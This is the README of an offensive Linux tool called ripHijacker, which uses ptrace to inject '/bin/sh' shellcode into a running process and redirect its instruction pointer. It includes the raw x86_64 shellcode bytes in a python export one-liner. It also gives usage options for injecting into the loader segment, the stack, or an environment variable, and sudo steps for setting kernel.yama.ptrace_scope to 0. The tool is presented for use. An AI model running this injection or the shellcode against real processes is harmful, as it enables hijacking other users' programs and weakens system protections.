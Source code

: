 # ripHijacker
                       
 Usage: ./ripHijacker -p target_pid  [-z 0|1 [-e environment_variable -n target_program_name]]
 
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid

..allows you to inject an hardcoded "/bin/sh" shellcode into the executable segment /lib/x86_64-linux-gnu/ld-2.19.so of the target and to overwrite its rip register with the address of that segment.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid -z 1

..allows you to inject an hardcoded "/bin/sh" shellcode into the stack of the target and to overwrite its rip register with the address pointed by its rsp register.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid -z 1 -e environment_variable -n target_program_name 

..allows you to overwrite the register rip of the target with the address of the environment variable (specified with -e option) in the target's stack.
-------------------------------------------------------------------------------------------------------------------------
We can load a simple shellcode in an environment variable with the command:

export A=$(python -c "print '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")

ripHijacker uses ptrace. "A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes", so we can change scope of ptrace with these commands:

sudo vim  /etc/sysctl.d/10-ptrace.conf

..and setting.. 

kernel.yama.ptrace_scope = 0

..after that we must load the new settings with:

sudo sysctl --system -a -p | grep  yama

Obviously, to use '-z 1' option the target program must be compiled with the "-z execstack" option and to use -e and -n options the environment variable must be loaded before the program target execution.

Acknowledgment:

  Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
  conoscenza dell'utilità di ptrace ed anche Crossbower che mi ha dato l'idea su come effettuare l'attacco ld_inj




